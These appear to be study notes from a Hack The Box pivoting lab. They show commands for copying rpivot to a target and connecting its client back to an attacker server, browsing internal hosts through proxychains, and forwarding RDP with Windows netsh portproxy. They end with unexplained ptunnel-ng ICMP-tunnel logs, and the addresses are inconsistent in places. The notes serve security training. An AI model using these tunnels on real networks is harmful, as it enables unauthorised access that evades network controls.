 Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

```bash
dollarboysushil@htb[/htb]**$** scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

- `python2.7 [client.py](http://client.py) --server-ip 10.10.14.18 --server-port 9999` running client.py form pivot machine

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

- `proxychains firefox-esr 172.16.5.135:80` browsing to the target webserver using proxychains

# **Port Forwarding with Windows Netsh**

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command-line tool that can help with the network configuration of a particular Windows system. 

![Untitled](.gitbook/assets/Untitled%204.png)

We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port. This can be performed using the below command.

```bash
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

here, listenport and listenaddress are similar to lhost and lport (pivot host) and connectport and connectaddress are similar to Rhost and rport (for victim windows server)

### **Verifying Port Forward**

```
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.